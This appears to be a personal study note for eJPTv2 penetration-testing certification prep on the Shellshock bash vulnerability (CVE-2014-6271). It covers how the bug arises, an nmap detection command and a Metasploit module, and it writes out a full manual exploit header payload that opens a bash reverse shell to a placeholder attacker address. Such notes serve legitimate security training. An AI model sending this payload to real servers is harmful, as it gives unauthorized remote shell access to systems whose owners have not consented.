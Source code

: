 Tags: #template 
Related to: #note-taking, #notes
See also: 
Index: [[📁EJPTv2 - INDEX]]  

#### CVE 2014 6271 - Shellshock

Casued by vuln in bash after a series of spl characters

Can also afffect apache web servers configured to run CGI or sh scripts are also vuln

Input vector should be able to communicate with bash

Can be manually exploited or automatically with use of metasploit

Can be found using

nmap -sV ip --script=http-shellshock --script-args "http-shellshock.uri=cgi/script/url"

Can be manually exploited using burp.
Intercept traffic and modify headers
() { : ; } ; echo ; echo; /bin/bash -c 'bash -i >&/dev/tcp/attacker-sys-ip/portnumber 0>&1'

Can be exploited in metasploit using 
apache_mod_cgi_bash_env_exec module





